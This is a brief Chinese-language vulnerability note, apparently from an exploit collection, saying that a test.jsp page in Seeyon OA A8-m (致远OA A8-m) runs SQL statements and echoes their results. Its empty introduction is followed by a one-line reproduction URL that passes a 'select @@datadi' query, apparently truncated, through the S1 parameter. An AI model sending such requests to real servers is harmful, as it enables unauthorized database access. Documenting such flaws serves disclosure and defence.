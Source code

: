 致远OA A8-m 存在sql语句页面回显功能
===================================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A8-m

三、复现过程
------------

    http://wwww.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20@@datadi
